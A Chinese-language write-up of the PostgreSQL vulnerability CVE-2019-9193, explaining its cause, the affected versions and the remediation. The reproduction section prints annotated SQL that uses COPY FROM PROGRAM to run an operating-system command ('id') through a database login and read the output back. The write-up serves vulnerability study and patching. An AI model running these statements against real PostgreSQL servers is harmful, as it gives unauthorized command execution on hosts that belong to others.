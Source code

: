 # PostgreSQL 高权限命令执行漏洞(CVE-2019-9193)

# 漏洞简介

**PostgreSQL是功能强大的数据库软件，可在所有主要操作系统上运行，包括Linux，Windows，Mac OS X等。所公开的漏洞存在于命令“COPY TO / FROM PROGRAM”中，用于导入和导出数据。在“pg_read_server_files”组中的用户执行上述命令之后，可以获得数据库超级用户权限，从而执行任何系统命令**

# 漏洞影响版本

PostgreSQL 9.3-11.2





# 产生原因

PostgreSQL 9.3中添加的COPY … PROGRAM的功能，此功能允许被授予超级用户或pg_execute_server_program的用户作为PostgreSQL服务器运行的操作系统用户(通常是“postgres”)执行操作。但由于开发者可能很多时候并不会按照最佳实践创建角色，容易导致基于超级用户权限去运行应用，因此容易引发任意代码执行




# 漏洞复现

**前提：需要知道对方数据库密码，通过配置文件或其他途径**



远程连接对方postgres数据库

![image-20220430182307789](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220430182307789.png)

执行如下语句，FROM PROGRAM语句将执行命令id并将结果保存在cmd_exec表中

```
DROP TABLE IF EXISTS cmd_exec;
 
CREATE TABLE cmd_exec(cmd_output text);
 
COPY cmd_exec FROM PROGRAM 'id';
 
SELECT * FROM cmd_exec;
```

![image-20220430182356137](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220430182356137.png)

**具体过程：**

```
DROP TABLE IF EXISTS cmd_exec;		//执行删除你想用来保存命令输出但是可能存在的表，这一步可有可无
 
CREATE TABLE cmd_exec(cmd_output text);		//创建用来保存命令输出的表
 
COPY cmd_exec FROM PROGRAM 'id';		//通过 “COPY FROM PROGRAM”执行系统命令

SELECT * FROM cmd_exec;		//将结果显示出来
```

![image-20220430182503504](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220430182503504.png)

**成功执行命令**

# 修复方案

1.建议升级至最新版本

2.控制数据库权限禁止普通用户执行命令